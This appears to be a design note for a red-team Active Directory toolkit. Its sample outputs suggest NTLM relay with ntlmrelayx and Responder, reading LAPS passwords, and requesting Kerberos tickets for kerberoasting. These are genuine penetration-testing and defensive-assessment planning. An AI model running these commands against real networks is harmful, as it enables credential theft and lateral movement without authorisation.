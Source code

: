 
## Revised Tool Improvements

### ✅ APPROVED: Keep & Enhance

#### SMB Signing Detection (RelaySeek)
**Purpose**: Detect relay-vulnerable hosts  
**Output**:
```
relay_targets.txt          # List of vulnerable IPs
RELAY_ATTACK_GUIDE.txt     # Suggested commands

# RELAY_ATTACK_GUIDE.txt contents:
[+] Found 45 relay-vulnerable hosts

Suggested Attack Flow:
1. Start ntlmrelayx:
   impacket-ntlmrelayx -tf relay_targets.txt -smb2support

2. Start Responder (in another terminal):
   sudo responder -I eth0 -wrf

3. Monitor Responder logs:
   tail -f /usr/share/responder/logs/*

Note: Hashes will be captured by Responder. Use hashsweep for cracking.
```

#### LDAP Enhancements
**Additions**:
- ✅ LAPS detection (read-only, identify readable passwords)
- ✅ Delegation enumeration (unconstrained/constrained/RBCD)
- ✅ Password policy extraction
- ✅ Privileged group membership

**Output Format**:
```
HIGH_VALUE_TARGETS.txt
  [LAPS Readable]
  • WORKSTATION01 - ms-Mcs-AdmPwd is readable
  • WORKSTATION02 - ms-Mcs-AdmPwd is readable
  
  [Unconstrained Delegation]
  • SERVER01 - Full unconstrained delegation
  • SERVER02 - Trusts for delegation
  
  [Kerberoastable]
  • svc_sql - SPN: MSSQLSvc/sql01.domain.local
  • svc_web - SPN: HTTP/web01.domain.local

Suggested Actions:
1. Extract LAPS passwords:
   Get-ADComputer WORKSTATION01 -Properties ms-Mcs-AdmPwd
   
2. Request TGS tickets:
   python kerbseek.py dclist.txt -u user@domain.local -p password
```
